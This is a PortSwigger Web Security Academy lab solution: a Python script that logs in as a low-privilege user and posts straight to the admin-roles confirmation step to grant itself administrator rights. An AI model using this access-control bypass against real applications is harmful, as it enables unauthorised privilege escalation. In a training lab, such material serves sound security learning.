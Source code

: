# Lab: Multi-step process with no access control on one step

Link to lab: https://portswigger.net/web-security/access-control/lab-multi-step-process-with-no-access-control-on-one-step

## Solution

```python
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup


url = 'https://0a3600b50475321cc0f1ff2b00f50036.web-security-academy.net/'

# Post login

data = {
    'username': 'wiener',
    'password': 'peter'
}

response = requests.post(
    url + 'login',
    data=data,
    verify=False,
    allow_redirects=False
)

session = response.headers['set-cookie'].split(';')[0].split('=')[1]

# Change role

cookies = {
    'session': session,
}

data = {
    'action': 'upgrade',
    'confirmed': 'true',
    'username': 'wiener',
}

response = requests.post(
    url + 'admin-roles',
    cookies=cookies,
    data=data,
    verify=False,
)

print(response.text)
```